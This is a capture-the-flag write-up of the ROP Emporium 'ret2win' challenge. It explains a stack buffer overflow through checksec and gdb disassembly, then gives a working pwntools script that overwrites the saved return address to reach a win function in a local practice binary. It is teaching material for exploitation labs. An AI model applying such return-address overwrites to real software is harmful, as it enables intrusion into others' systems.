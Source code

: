 ```yaml
---
title: Return-Oriented Programming - ret2win
date: '2021-12-20'
tags: ['ropemporium','rop', 'pwn']
draft: false
summary: ret2win means return here to win and it's recommended you start with this challenge. Visit the challenge page by clicking this card to learn more.
images: []
layout: PostLayout
---
```


## Introduction
Challenge description

>Locate a method that you want to call within the binary. Call it by overwriting a saved return address on the stack.

This challenge is classical pwn challenge of overwriting the return address with desired address you want to return to.

The binaries for the challenges can be downloaded from the author`s website [ropemporium](https://ropemporium.com).The goal of first challenge is to call the **ret2win** function.

After downloading the binary, the first thing is to check the binary protection enabled on the binary using `checksec` utility.

```bash
vx@archie:ret2win$ checksec --file ret2win
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Only **NX** (Not executable) is enabled on the binary meaning we cannot execute code stored on the stack like shellcode.and the behavior of this program we will use gdb. gdb is a tools that enables to inspect the behavior of binaries at runtime.
```nasm
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000400528  _init
0x0000000000400550  puts@plt
0x0000000000400560  system@plt
0x0000000000400570  printf@plt
0x0000000000400580  memset@plt
0x0000000000400590  read@plt
0x00000000004005a0  setvbuf@plt
0x00000000004005b0  _start
0x00000000004005e0  _dl_relocate_static_pie
0x00000000004005f0  deregister_tm_clones
0x0000000000400620  register_tm_clones
0x0000000000400660  __do_global_dtors_aux
0x0000000000400690  frame_dummy
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400756  ret2win
0x0000000000400780  __libc_csu_init
0x00000000004007f0  __libc_csu_fini
0x00000000004007f4  _fini
(gdb) 
```
The binary has various functions has as shown in the output above.For initial analysis we start at the main function which is the entrypoint of our program.

```nasm
(No debugging symbols found in ret2win)
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000400697 <+0>:	push   rbp
   0x0000000000400698 <+1>:	mov    rbp,rsp
   0x000000000040069b <+4>:	mov    rax,QWORD PTR [rip+0x2009b6]        # 0x601058 <stdout@@GLIBC_2.2.5>
   0x00000000004006a2 <+11>:	mov    ecx,0x0
   0x00000000004006a7 <+16>:	mov    edx,0x2
   0x00000000004006ac <+21>:	mov    esi,0x0
   0x00000000004006b1 <+26>:	mov    rdi,rax
   0x00000000004006b4 <+29>:	call   0x4005a0 <setvbuf@plt>
   0x00000000004006b9 <+34>:	mov    edi,0x400808
   0x00000000004006be <+39>:	call   0x400550 <puts@plt>
   0x00000000004006c3 <+44>:	mov    edi,0x400820
   0x00000000004006c8 <+49>:	call   0x400550 <puts@plt>
   0x00000000004006cd <+54>:	mov    eax,0x0
   0x00000000004006d2 <+59>:	call   0x4006e8 <pwnme>
   0x00000000004006d7 <+64>:	mov    edi,0x400828
   0x00000000004006dc <+69>:	call   0x400550 <puts@plt>
   0x00000000004006e1 <+74>:	mov    eax,0x0
   0x00000000004006e6 <+79>:	pop    rbp
   0x00000000004006e7 <+80>:	ret    
End of assembler dump.
(gdb) 
```
From the initial analysis of the main function, we are calling an interesting function called **pwnme**. Next disassemble **pwnme** function to understand the behavior.

```nasm
(gdb) disas pwnme
Dump of assembler code for function pwnme:
   0x00000000004006e8 <+0>:	push   rbp
   0x00000000004006e9 <+1>:	mov    rbp,rsp
   0x00000000004006ec <+4>:	sub    rsp,0x20
   0x00000000004006f0 <+8>:	lea    rax,[rbp-0x20]
   0x00000000004006f4 <+12>:	mov    edx,0x20
   0x00000000004006f9 <+17>:	mov    esi,0x0
   0x00000000004006fe <+22>:	mov    rdi,rax
   0x0000000000400701 <+25>:	call   0x400580 <memset@plt>
   0x0000000000400706 <+30>:	mov    edi,0x400838
   0x000000000040070b <+35>:	call   0x400550 <puts@plt>
   0x0000000000400710 <+40>:	mov    edi,0x400898
   0x0000000000400715 <+45>:	call   0x400550 <puts@plt>
   0x000000000040071a <+50>:	mov    edi,0x4008b8
   0x000000000040071f <+55>:	call   0x400550 <puts@plt>
   0x0000000000400724 <+60>:	mov    edi,0x400918
   0x0000000000400729 <+65>:	mov    eax,0x0
   0x000000000040072e <+70>:	call   0x400570 <printf@plt>
   0x0000000000400733 <+75>:	lea    rax,[rbp-0x20]
   0x0000000000400737 <+79>:	mov    edx,0x38
   0x000000000040073c <+84>:	mov    rsi,rax
   0x000000000040073f <+87>:	mov    edi,0x0
   0x0000000000400744 <+92>:	call   0x400590 <read@plt>
   0x0000000000400749 <+97>:	mov    edi,0x40091b
   0x000000000040074e <+102>:	call   0x400550 <puts@plt>
   0x0000000000400753 <+107>:	nop
   0x0000000000400754 <+108>:	leave  
   0x0000000000400755 <+109>:	ret    
End of assembler dump.
```
From the disassembled code above, we are filling a buffer of size 0x20(32bytes) with a constant byte of zero. **memset** is used to overwrite any values present memory area specified. The memory are we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size  32 bytes from the address of base pointer as shown in the stack diagram below.

![](/static/images/ropemporium/stack.png)

Therefore the next function is **read** function, which reads from the standard input file descriptor and stores in the specified buffer.From the disassembled code we see we are reading 0x38 bytes from the user input and storing it in our buffer.

```c
read(0, *[rbp-0x20], 0x38) //0 is file descriptor stdin
```
Because we are reading more than the buffer can hold, we corrupt the adjacent memory regions therefore casusing a stack buffer overflow. Therefore in order to control the return address as shown in the stack image shown above is to fill the buffer, overwrite the rbp register and control the return address with our desired address which is **ret2win** function address. 

## Exploit

The exploit code for this ret2win function is,
```python
import pwn

pwn.context.encoding = "latin-1" 
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"

io = pwn.process('./ret2win')

payload = b"A" * 32 # fill the buffer
payload += b"B" * 8  #overwrite saved base pointer
payload += pwn.p64(0x400756)  #Address of ret2win function
io.writeafter('>', payload)

pwn.info(io.clean().decode())
```

Running the script we get the flag.

```bash
vx@archie:ret2win$ python3 x.py 
[+] Starting local process './ret2win': pid 45427
[*]  Thank you!
    Well done! Here's your flag:
    ROPE{a_placeholder_32byte_flag!}
[*] Process './ret2win' stopped with exit code 0 (pid 45427)
```